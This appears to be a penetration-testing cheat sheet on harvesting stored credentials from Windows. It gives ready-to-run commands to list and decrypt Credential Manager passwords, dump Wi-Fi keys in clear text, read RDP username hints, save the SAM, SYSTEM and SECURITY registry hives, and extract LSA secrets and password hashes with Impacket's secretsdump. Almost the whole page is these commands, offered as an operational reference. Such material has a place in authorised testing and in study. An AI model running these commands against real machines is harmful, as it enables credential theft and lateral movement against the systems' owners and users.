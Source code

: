 # Stored Credentials

## Commands

<table data-header-hidden data-full-width="true"><thead><tr><th>Command</th><th>Description</th></tr></thead><tbody><tr><td><mark style="color:yellow;"><code>cmdkey /list</code></mark></td><td>Lists credentials stored in Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>Get-StoredCredential</code></mark></td><td>Lists credentials stored in Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>Get-StoredCredential -Target "TargetName"</code></mark></td><td>Lists credentials for a specific target in Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>$cred = Get-StoredCredential -Target "TargetName"</code></mark></td><td>Retrieves credentials for a specific target from Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>$cred.GetNetworkCredential().Password</code></mark></td><td>Retrieves and decrypts the password for a specific target from Windows Credential Manager.</td></tr><tr><td><mark style="color:yellow;"><code>wmic path Win32_VaultCredential</code></mark></td><td>Lists credentials stored in Windows Vault using WMI (may not work on all systems).</td></tr><tr><td><mark style="color:yellow;"><code>reg.exe save hklm\sam C:\temp\sam.save</code></mark></td><td>Copies SAM. The SAM can be decrypted using secretsdump.py from Impacket.</td></tr><tr><td><mark style="color:yellow;"><code>reg.exe save hklm\system C:\temp\system.save</code></mark></td><td>Copies System Registry.</td></tr></tbody></table>

Lists credentials stored in Windows Vault using CIM-Instance (may not work on all systems):

{% code overflow="wrap" %}
```powershell
Get-CimInstance -Namespace "Root\Microsoft\Windows\Security\*" -ClassName Win32_VaultCredential
```
{% endcode %}

Lists usernames used for Remote Desktop connections from the registry using PowerShell:

```powershell
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Terminal Server Client\Default"
```

Decrypts and retrieves the username for a specific RDP server from the registry using PowerShell:

```powershell
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Terminal Server Client\Servers\ServerName" -Name "UsernameHint"
```

Lists Wi-Fi network profiles and their passwords using PowerShell (requires admin privileges):

{% code overflow="wrap" %}
```powershell
(netsh wlan show profiles) | ForEach-Object { $_; (netsh wlan show profile name="$($_.Trim())" key=clear) }
```
{% endcode %}

## LSA Secrets

LSA Secrets is used by the Local Security Authority (LSA) as storage, and oftentimes information such as auto-login service accounts or VPN credentials may be stored here:

To extract LSA secrets you need SYSTEM privs:

```powershell
reg.exe save hklm\security C:\temp\security.save
```

```powershell
reg.exe save hklm\system C:\temp\system.save
```

LSA Secrets is stored within the Security Registry.

We still need the Syskey from the System hive so we can decrypt the contents of LSA Secrets.

We can then extract the LSA Secrets using secretsdump from Impacket with the command:

```powershell
python3 secretsdump.py -security security.save -system system.save LOCAL
```

## Copy SAM and System Hive

To backup the SAM and SYSTEM hashes, we can use the following commands:

```powershell
reg save hklm\system C:\Users\backup\system.hive
```

```powershell
reg save hklm\sam C:\Users\backup\sam.hive
```
